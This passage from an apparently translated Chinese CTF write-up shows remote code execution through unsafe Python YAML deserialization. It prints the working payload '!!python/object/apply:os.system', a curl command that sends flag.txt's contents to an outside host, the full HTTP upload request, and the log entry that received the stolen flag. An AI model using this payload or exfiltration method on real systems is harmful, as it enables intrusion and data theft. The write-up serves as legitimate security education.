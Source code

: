 </code></li></ul>
</pre>
<p nodeIndex="80"><span nodeIndex="229">正如上面这段代码所示，Payload能够正常工作，这也就意味着我们能够在目标服务器上实现远程代码执行了！接下来，我们要做的就是读取flag.txt了...</span></p>
<p nodeIndex="81"><span nodeIndex="230">但是在研究了一下之后，我迅速发现了上述方法中存在的一个限制因素:即它只能运行一种命令，例如ls和whoami等等。这也就意味着，我们之前的这种方法是无法读取到flag的。接下来我还发现，os.system（Python调用）同样能够实现远程代码执行，而且它还可以运行多个命令。但是在进行了尝试之后，我发现这种方法根本就行不通，因为服务器端返回的结果是“0”，而且我也无法查看到我的命令输出结果。因此我们又不得不想办法寻找更好的解决方案了，我的同事</span><a href="https://n0j.github.io/" nodeIndex="231"><span nodeIndex="232">@n0j</span></a><span nodeIndex="233">发现，如果命令成功运行的话，os.system["command_here"]将只会返回退出代码"0"，而由于Python处理子进程执行的特殊方式，我们也无法查看到命令输出结果。因此，我尝试注入了如下所示的命令来读取flag:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="82">
curl https://crowdshield.com/?`cat flag.txt`
</pre>
<p nodeIndex="83"><span nodeIndex="234"><strong nodeIndex="235"><span nodeIndex="236">HTTP请求</span></strong></span></p>
<pre class="brush:html;toolbar:false" nodeIndex="84">
POST / HTTP/1.1
Host: ganon.39586ebba722e94b.ctf.land:8001
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://ganon.39586ebba722e94b.ctf.land:8001/
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------200783363553063815533894329
Content-Length: 438
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml
 
---
"goodbye": !!python/object/apply:os.system ["curl https://crowdshield.com/?`cat flag.txt`"]
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="upload"
 
 
-----------------------------200783363553063815533894329--
 
 
</div>
 
  <div class="container main" >
    <div>
        <div class="col-md-12 main">
           
  <ul><li><code>goodbye</code> : <code>0</code></li></ul>
           
        </div>
    </div>
  </div>
</pre>
<p nodeIndex="85"><span nodeIndex="237">在经过了大量测试之后，我们终于拿到了这一挑战的flag，然后得到了250分。</span></p>
<p nodeIndex="86"><span nodeIndex="238"><strong nodeIndex="239"><span nodeIndex="240">远程Apache服务器日志</span></strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="87">
34.214.16.74 - - [02/Sep/2017:21:12:11 -0700] "GET /?ItsCaptainCrunchThatsZeldasFavorite HTTP/1.1" 200 1937 "-" "curl/7.38.0"
</pre>
